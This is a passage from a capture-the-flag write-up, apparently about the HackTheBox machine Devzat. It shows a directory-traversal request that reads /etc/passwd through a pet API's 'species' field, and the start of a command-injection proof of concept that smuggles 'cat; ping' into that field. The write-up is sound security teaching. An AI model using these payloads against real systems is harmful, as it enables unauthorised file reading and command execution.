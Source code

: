 There’s no validation, so I can inject into the species field and likely get both file include and command execution.

## Shell as partick

### File Read POC

I don’t really need it (because command injection gives everything file read can give and more), but this is vulnerabile to a directory traversal / file read vulnerability. For example, if I submit the following to the API:

```

POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 60
Connection: close

{"name":"0xdf","species":"../../../../../../../etc/passwd"}

```

The server will eventually run a command to get the description:

```

sh -c cat characteristics/../../../../../../../etc/passwd

```

And it will show up on the page (sometimes it takes a couple refreshes if you’re working out of Repeater):

![image-20220311102709002](https://0xdfimages.gitlab.io/img/image-20220311102709002.png)

### Command Injection POC

Command injection is the more useful exploit, so I’ll turn there. Given that I know this line from the source:

```

cmd := exec.Command("sh", "-c", "cat characteristics/"+species)

```

I’ll try submitting a payload with `species` as `cat; ping -c 1 10.10.14.9`:

